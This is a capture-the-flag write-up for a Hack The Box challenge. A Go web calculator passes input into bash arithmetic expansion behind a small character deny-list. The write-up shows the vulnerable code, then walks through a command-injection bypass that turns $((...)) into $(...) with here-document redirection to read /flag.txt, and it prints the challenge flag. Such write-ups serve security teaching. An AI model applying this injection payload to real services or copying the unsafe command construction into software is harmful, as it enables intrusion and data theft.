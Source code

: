 > I've made the coolest calculator.
> It's pretty simple, I don't need to parse the input and take care of execution order, bash does it for me!
> I've also made sure to remove characters like $ or \` to not allow code execution, that will surely be enough.

> Author: **[raulojeda22][author-profile]**

## The service

It lets us perform basic math and has some kind of filtering in place:

```
CALCULATOR
Operation: 3+2
5
Operation: cat</flag.txt
Operation: 2*3));cat</flag.txt
1	';' removed
```

The calculations are routed to bash:

```golang
command := "echo $((" + op + "))"
output, _ := shell.Execute(context.Background(), command)
```

The list of forbidden characters is rather small:

```golang
firewall := []string{" ", "`", "$", "&", "|", ";", ">"}
```

There is most likely several solutions!

## Finding the weakness

For me the idea was to dissociate the internal parenthesis from the external one:
go from an arithmetic expansion `$(( ... ))` to a command substitution `$( ... )`

For example this command works in the current directory:

```shell
echo $((cat<README.md)</)
echo $((ls)</)
```

But there's one more closing parenthesis. I tried escaping it:

```shell
echo $((ls)</\))
```

It fails with the error:

```
bash: /): No such file or directory
```

However, with the append redirection `<<`, `bash` only outputs a warning:

```shell
echo $((ls)<</\))
```

```
# bash: warning: here-document at line 1 delimited by end-of-file (wanted `/)')
```

Thanks to the `Dockerfile` we know the location of the file:

```shell
cat</flag.txt)<</\
```

> `HTB{Ju4nck3r_15_y0ur_n4m3_15nt_1t?}`

[author-profile]: https://app.hackthebox.com/users/82112
[bash-hackers]: https://wiki.bash-hackers.org/syntax/expansion/cmdsubst
